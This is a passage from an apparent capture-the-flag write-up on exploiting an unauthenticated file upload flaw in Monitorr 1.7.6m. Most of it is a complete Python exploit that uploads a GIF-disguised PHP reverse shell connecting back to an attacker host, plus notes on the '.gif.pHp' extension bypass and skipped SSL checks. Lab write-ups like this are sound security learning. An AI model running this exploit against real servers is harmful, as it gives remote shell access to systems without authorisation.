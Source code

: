 Well, well, well. Vulnerable version is 1.7.6m - the same version we have on the box. Let's see the second one (because of _Unauthenticated_). Description of the vulnerability in the _Additional readings_.

## `upload_shell.py`

```python
import requests
import os
import sys

host = "https://monitorr.robyns-petshop.thm"
url = host + "/assets/php/upload.php"
filename = "file.gif.pHp"
lhost = "XX.XX.XX.XXX"
lport = "443"

headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:82.0) Gecko/20100101 Firefox/82.0", "Accept": "text/plain, */*; q=0.01", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "X-Requested-With": "XMLHttpRequest", "Content-Type": "multipart/form-data; boundary=---------------------------31046105003900160576454225745", "Origin": host, "Connection": "close", "Referer": host}

data = "-----------------------------31046105003900160576454225745\r\nContent-Disposition: form-data; name=\"fileToUpload\"; filename=\""+filename+"\"\r\nContent-Type: image/png, text/plain, application/octet-stream\r\n\r\nGIF89a<?php $sock=fsockopen(\""+lhost+"\","+lport+");$proc=proc_open(\"/bin/sh -i\", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);\r\n\r\n-----------------------------31046105003900160576454225745--\r\n"

r = requests.post(url,cookies={"isHuman":"1"}, headers=headers, data=data, verify=False)

# This part is unnecessary as the script can be invoked by browsing it in the browser (as long as the file is still there)

print ("A shell script should be uploaded. Now we try to execute it")
url = host + "/assets/data/usrimg/"+filename.lower()
headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:82.0) Gecko/20100101 Firefox/82.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Connection": "close", "Upgrade-Insecure-Requests": "1"}
s =requests.get(url, headers=headers, verify=False)              
```

If you compare this and original version of the script you will find the following differences (apart from extracting the variables):

### File name
File that is being uploaded is renamed to `*.gif.pHp`. In the first version of the machine (launched during the event) it can be `*.phtml`. Muri patched that later, so I could only get with the file that have that uppercased `pHp` extension.

### SSL verification skip
Monitorr is accessed via HTTPS protocol and browser warns about the certificate. The only way to get past this is to set `verify` to `False`. You did see similar thing done to `curl` before - `curl` is using `-k` for skipping SSL verification.
